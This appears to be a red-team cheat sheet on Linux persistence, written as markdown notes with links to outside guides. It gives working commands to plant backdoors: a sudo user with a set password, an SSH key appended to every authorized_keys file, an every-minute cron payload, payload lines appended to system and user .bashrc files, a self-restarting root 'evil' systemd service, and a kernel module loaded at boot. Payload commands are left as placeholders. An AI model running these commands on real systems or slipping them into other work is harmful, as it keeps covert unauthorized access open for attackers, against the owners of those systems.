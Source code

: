 # Linux persistence

## Things to remember
  *  Enumerate defenses and choose persistence mechanisms carefully
  *  These methods and more covered on [Linode](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/), [hadess.io](https://hadess.io/the-art-of-linux-persistence/), and [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/)

## [Credentials](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/#creating-a-privileged-local-account)
  *  Credentials are the easiest form of persistence
  *  Any form of credential can often be used
      *  Includes passwords, SSH keys, etc.
  *  [Create a new user account](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/#add-a-root-user) and/or dump credentials
      *  Set UID/GID to `0` or add to `sudo` group/`sudoers` file
  *  Users with duplicate UID/GID cannot login via SSH

```
useradd -G sudo -s /bin/bash -p $(echo 'password' | openssl passwd -stdin) hacker
```

## [Authorized SSH keys](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/#persistence-via-ssh-keys)
  *  Add new SSH keys to a user's [`authorized_keys`](http://man.he.net/man5/authorized_keys) file
      *  Persists through password changes
      *  User/host in `authorized_keys` entry does not have to be real
      *  One-liner as root to add SSH pubkey to all `authorized_keys` files

```
ssh-keygen
echo 'ssh-rsa [BASE64 PUBLIC KEY STRING] kali@kali' >> /home/bob/.ssh/authorized_keys
for file in $(find / -name authorized_keys 2>/dev/null); do echo 'ssh-rsa [BASE64 PUBLIC KEY STRING] kali@kali' >> $file; done
```

## [Cronjobs](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/#suid-binary)
  *  Create scheduled tasks to execute code at an interval
      *  See [cron file syntax](https://man7.org/linux/man-pages/man5/crontab.5.html) for more control over timing

// Execute evil.sh or payload command every minute
```
echo "* * * * * bash /path/to/evil.sh" | crontab
echo "* * * * * bash -c '[PAYLOAD COMMAND]'" | crontab
```

## [Shell configuration files](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/#unix-shell-configuration-modification)
  *  Shell config files are executed at various points throughout a shell's lifetime
      *  `~/.bashrc` is most common but [many more exist](https://tldp.org/LDP/Bash-Beginners-Guide/html/sect_03_01.html)
      *  Config files located outside home directories apply to all users
  *  Useful outside of persistence, [InternalAllTheThings example](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/#backdooring-a-users-bash_rc) demonstrates stealing a victim's password
  *  Choose payload carefully, some payloads may break the user's shell

```
echo "[PAYLOAD COMMAND] &" >> ~/.bashrc
echo "[PAYLOAD COMMAND] &" >> /etc/bash.bashrc
```

## [Services](https://hadess.io/the-art-of-linux-persistence/)
  *  Create or [modify](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/#backdooring-a-startup-service) a service to execute code at boot/an interval
      *  See `systemd.service` [man page](https://www.freedesktop.org/software/systemd/man/latest/systemd.service.html) for more config options

// Execute payload command on boot and every 10 seconds when disconnected
```
cat /etc/systemd/system/evil.service 
[Unit]
After=network.target

[Service]
Restart=always
RestartSec=10
User=root
ExecStart=[PAYLOAD COMMAND]

[Install]
WantedBy=multi-user.target
```

```
systemctl enable evil
systemctl start evil
```

## [Kernel modules](https://github.com/SpacemanHenry/hacknotes/tree/main/Post%20Exploitation/Persistence/Linux/Kernel%20Module)
  *  [Compile/configure a kernel module](https://tldp.org/LDP/lkmpg/2.6/html/c119.html) to execute code when loaded at boot
      *  Download/install headers for target kernel version to compile off-target
      *  Target kernel version headers not easily installable? Consider a VM 
  *  [`module.c`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Persistence/Linux/Kernel%20Module/module.c) spawns userspace programs from kernelspace
      *  Resulting process is visible in process listings
      *  Consider researching malicious operations from kernelspace only

// Install kernel module for loading at boot time
```
cp evil.ko /lib/modules/$(uname -r)
echo evil > /lib/modules-load.d/evil.conf
depmod -a
insmod evil.ko
```
